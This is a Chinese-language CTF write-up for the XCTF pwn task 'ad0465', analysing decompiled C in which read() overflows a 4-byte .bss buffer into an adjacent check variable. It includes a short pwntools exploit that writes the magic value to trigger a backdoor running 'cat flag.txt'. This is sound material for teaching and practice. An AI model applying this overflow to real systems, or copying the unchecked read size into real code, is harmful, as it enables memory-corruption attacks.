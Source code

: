 #### [ad0465 覆盖变量值](https://adworld.xctf.org.cn/media/file/task/4f2f44c9471d4dc2b59768779e378282)
1. 分析过程  
    查看main函数，查看里面的hello()可疑函数：
    ```c
    __int64 __fastcall main(int a1, char **a2, char **a3)
    {
        alarm(0x3Cu);
        setbuf(stdout, 0LL);
        puts("~~ welcome to ctf ~~     ");
        puts("lets get helloworld for bof");
        read(0, &unk_601068, 0x10uLL);     // 注入点
        if ( dword_60106C == 1853186401 )  // 后门
            sub_400686();
        return 0LL;
    }
    ```
    查看输入点，输入到unk_601068；查看函数sub_400686()，为cat flag
    ```c
    read(0, &unk_601068, 0x10uLL);
    if ( dword_60106C == 1853186401 )
        sub_400686();
    ```
    ```c
    __int64 sub_400686()
    {
        system("cat flag.txt");
        return 0LL;
    }
    ```
    检查对应栈地址，发现dword_60106C就在unk_601068下面，并且unk_601068只占4字节，而read函数读入0x10字节，可以覆盖到dword_60106C
    ```
    .bss:0000000000601068 unk_601068      db    ? ;               ; DATA XREF: main+3B↑o
    .bss:0000000000601069                 db    ? ;
    .bss:000000000060106A                 db    ? ;
    .bss:000000000060106B                 db    ? ;
    .bss:000000000060106C dword_60106C    dd ?                    ; DATA XREF: main+4A↑r
    ```
2. exp.py
    ```python
    from pwn import *
    io = process('./pwn')
    val = p64(1853186401)           # 64位的程序，需要注入的数字（使dword_60106C=1853186401）
    payload = b'a'*4 + val         # 4位填充到unk_601068，溢出为val
    io.sendline(payload)
    io.interactive()
    ```
